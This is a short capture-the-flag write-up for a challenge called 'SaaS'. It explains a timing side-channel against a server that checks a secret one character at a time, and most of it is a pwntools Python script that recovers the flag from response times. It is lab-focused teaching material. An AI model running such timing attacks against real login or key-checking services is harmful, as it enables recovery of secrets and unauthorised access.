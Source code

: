 ### 01/08/24

# SaaS (Misc)
#ctf 

> *really weird wordle*

The program on the server takes an inputted user string, checks if it matches the key char by char, and then returns whether or not if you are correct. Since the correct answers take slightly less time, we can try every letter, check what was fastest, and try every next letter. This is like a kinda weird breadth first binary search tree, where we just check each item and then check each branch of the next item, and so on. Here's the solution code written recursively:

*sorry for weird spacing, copy-paste was funky*

```python

#!/usr/bin/env python3

import time
from pwn import *
import string

done = False

p = remote("chal.ctf-league.osusec.org", 1320)

print(p.recvline())


def func(current):
    # Iterate all printable characters, bruteforcing
    # The current character
    current
    cool_name = {}

    for char in "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!?#$%&'()*+,-./:;<=>?@[\]^_`{|}~:":

        current_flag = current + char
        start = time.time()
        print(current_flag)
        p.sendline(current_flag)
        data = p.recvline()
        end = time.time()
        #print(end - start)

        cool_name[char] = (end - start)


        if b"got it" in data:

            print(current_flag)

            print("Ending!")

    #print(cool_name)

    new = min(cool_name, key=cool_name.get)

    print(new)

    #print(current + new)

    cool_name = {}

    func(current + new)

  

# Initial call to the recursive function

func("")
```
